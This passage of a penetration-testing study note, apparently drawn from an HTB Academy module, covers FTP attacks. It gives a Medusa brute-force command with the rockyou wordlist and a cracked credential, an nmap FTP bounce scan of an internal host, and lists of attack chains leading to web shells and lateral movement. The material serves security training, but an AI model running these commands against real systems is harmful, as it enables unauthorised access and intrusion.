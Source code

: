 ### Scenario 2: Brute Force with Medusa
```bash
# Discovered username through enumeration: fiona
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h target_ip -M ftp

# Result: fiona:family
# Access FTP and extract sensitive files
```

### Scenario 3: FTP Bounce Attack
```bash
# Use FTP server to scan internal network
nmap -Pn -v -n -p80 -b anonymous:password@ftp_server internal_target

# Discover internal services through FTP proxy
```

---

## 💡 Key Attack Insights

### Attack Effectiveness Factors
1. **Anonymous access** - Immediate exploitation opportunity
2. **Write permissions** - Enable file upload attacks
3. **Web directory access** - Direct path to code execution
4. **Weak credentials** - Entry point for authorized access
5. **Internal network position** - Pivot for lateral movement

### Common Attack Patterns
1. **Reconnaissance** → Anonymous testing → File extraction
2. **Brute force** → Credential discovery → Privilege abuse  
3. **Bounce attack** → Internal scanning → Lateral movement
4. **File upload** → Web shell → Remote code execution
5. **Configuration abuse** → Persistence → Privilege escalation

---

*This document provides comprehensive FTP attack methodologies based on HTB Academy's "Attacking Common Services" module, focusing on practical exploitation techniques for penetration testing and security assessment.* 